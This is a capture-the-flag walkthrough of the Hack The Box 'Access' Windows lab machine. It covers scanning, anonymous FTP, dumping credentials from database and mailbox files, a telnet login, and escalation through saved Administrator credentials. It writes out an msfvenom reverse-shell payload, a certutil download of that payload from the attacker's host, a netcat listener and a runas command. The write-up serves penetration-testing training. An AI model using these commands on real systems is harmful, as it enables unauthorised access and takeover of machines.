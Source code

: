 ```yaml
---
title: HTB : Access
permalink: /access
location:
---
```


# Access

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan` which should reveal three open ports: `21`, `23`, and `80`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**FTP**

An FTP server is running on port 21 and we can sign in as an anonymous user.

```
ftp 10.10.10.98
```

After exploring the `Backups` and `Engineer` directory we find two files that we can download. `Access Control.zip` and `backup.mdb`.

```
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
```

Download both of these files from the FTP server. If you are having issues downloading files try turning passive mode off and changing to binary mode.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
200 Type set to I.
```

**MDBTools**

The file `Access Control.zip` is password protected so we can move on. For accessing the `backup.mdb` file I used `mdb-tables` which can be installed with the following command:

```
sudo apt install mdbtools
```

Use `mdb-tables` to dump the table information.

```
mdb-tables backup.mdb
```

From the output there is a table called `auth_user` that could be useful. Dumping the contents of the table reveals some credentials.

```
mdb-json backup.mdb auth_user
```

```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"REDACTED","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Use the user credentials for `Engineer` to extract the `Access Control.zip` archive. This will reveal a file called `Access Control.pst` which can be read using the tool `readpst`. To install this use the following command:

```
sudo apt install pst-utils
```

Running this tool on the `Access Control.pst`file will create a new file called `Access Control.mbox` which is an email.

```
readpst 'Access Control.pst'  
```

Open this email to find the credentials for the `security` account.

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
...
```

**Telnet**

We can try to login into `telnet` using the credentials for the `security` user.

```
telnet -l security 10.10.10.98
```

Success!

```
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The user flag can be found in the following directory:

```
C:\Users\security\Desktop\user.txt
```

### Privilege Escalation

**Stored Credentials**

During our initial enumeration we find stored credentials for the `Administrator` account.

```
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can impersonate the `Administrator` using their stored credentials to gain access to their account. Create a reverse shell executable using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload to the target machine.

```
python -m http.server 80
```

```
certutil -urlcache -split -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a `netcat` listener on our attack machine. Once listening we can run this executable as the `Administrator` user with the `runas` command to gain a shell with elevated privileges.

```
rlwrap nc -nvlp 9001
```

```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\shelly.exe"
```

Success!

```
C:\Windows\system32>whoami
access\administrator
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
